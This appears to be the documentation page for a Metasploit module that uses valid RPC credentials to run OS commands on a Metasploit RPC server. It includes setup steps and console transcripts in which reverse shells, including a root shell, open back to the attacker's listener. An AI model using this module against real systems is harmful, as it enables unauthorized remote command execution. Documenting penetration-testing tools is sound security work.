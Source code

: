 ## Description

  This module connects to a specified Metasploit RPC server and uses the *console.write* procedure to execute operating system commands. Valid credentials are required to access the RPC interface.


## Vulnerable Application

  [Metasploit](https://www.rapid7.com/products/metasploit/) is the world's most used penetration testing software. The RPC API can be used to programmatically drive the Metasploit Framework and Metasploit Pro products.

  To start the RPC service, run `msfrpcd -U msf -P abc123`; or run `load msgrpc ServerHost=0.0.0.0 ServerPort=55552 User=msf Pass=abc123 SSL=Y` from within msfconsole.

  This module has been tested successfully on:

  * Metasploit 4.15 on Kali 1.0.6
  * Metasploit 4.14 on Kali 2017.1
  * Metasploit 4.14 on Windows 7 SP1

  Source and Installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/msf_rpc_console`
  3. Do: `set RHOST [IP]`
  4. Do: `set RPORT [PORT]` (default: `55552`)
  5. Do: `set USERNAME [USERNAME]` (default: `msf`)
  6. Do: `set PASSWORD [PASSWORD]`
  7. Do: `set LHOST [IP]`
  8. Do: `run`
  9. You should get a session


## Options

  **Username**

  The username for Metasploit RPC (default: `msf`).

  **Password**

  The password for the RPC user.


## Scenarios

### Ruby Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 0
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #0
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Command shell session 1 opened (172.16.191.181:4444 -> 172.16.191.166:52984) at 2017-07-05 03:40:50 -0400

  whoami
  win-sgbsd5tqutq\user
  ```

### Windows CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 1
  msf exploit(msf_rpc_console) > set payload cmd/windows/powershell_reverse_tcp
  payload => cmd/windows/powershell_reverse_tcp
  msf exploit(msf_rpc_console) > run

  [*] Started reverse SSL handler on 172.16.191.181:4444
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #1
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Powershell session session 2 opened (172.16.191.181:4444 -> 172.16.191.166:52996) at 2017-07-05 03:44:05 -0400

  Windows PowerShell running as user user on WIN-SGBSD5TQUTQ
  Copyright (C) 2015 Microsoft Corporation. All rights reserved.

  PS C:\metasploit>whoami
  win-sgbsd5tqutq\user
  ```

### Unix CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 2
  target => 2
  msf exploit(msf_rpc_console) > set payload cmd/unix/reverse_python
  payload => cmd/unix/reverse_python
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444
  [+] 172.16.191.215:55552 - Authenticated successfully
  [*] 172.16.191.215:55552 - Metasploit 4.15.0-dev-aceeedc
  [*] 172.16.191.215:55552 - Ruby 2.3.0 x86_64-linux 2015-12-25
  [*] 172.16.191.215:55552 - API version 1.0
  [+] 172.16.191.215:55552 - Created console #0
  [*] 172.16.191.215:55552 - Sending payload...
  [*] Command shell session 3 opened (172.16.191.181:4444 -> 172.16.191.215:40768) at 2017-07-05 03:46:11 -0400

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

